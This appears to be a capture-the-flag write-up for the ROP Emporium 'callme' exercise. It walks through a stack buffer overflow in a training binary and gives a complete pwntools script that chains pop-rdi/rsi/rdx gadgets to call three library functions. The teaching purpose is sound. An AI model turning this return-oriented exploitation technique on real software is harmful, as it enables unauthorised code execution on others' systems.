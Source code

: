 # callme

Reliably make consecutive calls to imported functions.
Use some new techniques and learn about the Procedure Linkage Table.

## Writeup

We can check if the binary is stripped or not:

```
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e8e49880bdcaeb9012c6de5f8002c72d8827ea4c, not stripped
```

The binary is now stripped we can see function names.

Now check which checks are enabled in this binary:

```
[*] '/home/kali/ROP Emporium/callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

The stack is not executable, so we can't inject a shellcode.

The program in the **main** function call the function **pwnme**:

```c
void pwnme(void)
{
  undefined buffer [32];
  
  memset(buffer,0,32);
  puts("Hope you read the instructions...\n");
  printf("> ");
  read(0,buffer,512);
  puts("Thank you!");
  return;
}
```

This function insert **512 bytes** of user input into **32 bytes** of buffer.

The binary also has a function called **usefulFunction**:

```c
void usefulFunction(void)
{
  callme_three(4,5,6);
  callme_two(4,5,6);
  callme_one(4,5,6);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

The function call **callme functions** that are inside the **callme.so**.

If we call all this functions in order with correct arguments this functions will **decrypt** the **flag**.

All functions need the same arguments, that are:

```c
void callme_one(long param_1,long param_2,long param_3)
{
  FILE *__stream;
  
  if (((param_1 != L'\xdeadbeef') || (param_2 != L'\xcafebabe')) || (param_3 != L'\xd00df00d')) {
    puts("Incorrect parameters");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  __stream = fopen("encrypted_flag.dat","r");
  if (__stream == (FILE *)0x0) {
    puts("Failed to open encrypted_flag.dat");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  g_buf = (char *)malloc(0x21);
  if (g_buf == (char *)0x0) {
    puts("Could not allocate memory");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  g_buf = fgets(g_buf,0x21,__stream);
  fclose(__stream);
  puts("callme_one() called correctly");
  return;
}
```

So we need to pass this three arguments:

```
0xdeadbeefdeadbeef
0xcafebabecafebabe
0xd00df00dd00df00d
```

In the binary we can find an **useful gadget** that make **pop rdi**, **pop rsi**, **pop rdx**, **ret** in order (we can see it with **ROPgadget**):

```
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

Calling all the function correctly will decrypt the flag and print it.

So we can build our payload like this:

```python
callme_one = exe.symbols['callme_one']
callme_two = exe.symbols['callme_two']
callme_three = exe.symbols['callme_three']

buffer_dim = 32
offset = buffer_dim + 8

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
useful_gadget = rop.find_gadget(['pop rdi', 'pop rsi', 'pop rdx', 'ret'])[0]

deadbeef_str = p64(0xdeadbeefdeadbeef)
cafebabe_str = p64(0xcafebabecafebabe)
d00df00d_str = p64(0xd00df00dd00df00d)

payload = [
    b'a' * offset,
    p64(ret),

    p64(useful_gadget),
    deadbeef_str,
    cafebabe_str,
    d00df00d_str,
    p64(callme_one),

    p64(useful_gadget),
    deadbeef_str,
    cafebabe_str,
    d00df00d_str,
    p64(callme_two),

    p64(useful_gadget),
    deadbeef_str,
    cafebabe_str,
    d00df00d_str,
    p64(callme_three),
]
```

The final exploit will be:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template callme
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'callme')

context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak callme_one
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'.'

io = start()

callme_one = exe.symbols['callme_one']
callme_two = exe.symbols['callme_two']
callme_three = exe.symbols['callme_three']

buffer_dim = 32
offset = buffer_dim + 8

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
useful_gadget = rop.find_gadget(['pop rdi', 'pop rsi', 'pop rdx', 'ret'])[0]

deadbeef_str = p64(0xdeadbeefdeadbeef)
cafebabe_str = p64(0xcafebabecafebabe)
d00df00d_str = p64(0xd00df00dd00df00d)

payload = [
    b'a' * offset,
    p64(ret),

    p64(useful_gadget),
    deadbeef_str,
    cafebabe_str,
    d00df00d_str,
    p64(callme_one),

    p64(useful_gadget),
    deadbeef_str,
    cafebabe_str,
    d00df00d_str,
    p64(callme_two),

    p64(useful_gadget),
    deadbeef_str,
    cafebabe_str,
    d00df00d_str,
    p64(callme_three),
]

payload = b''.join(payload)

io.sendlineafter(b'', payload)

io.interactive()
```

The output will be:

```
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```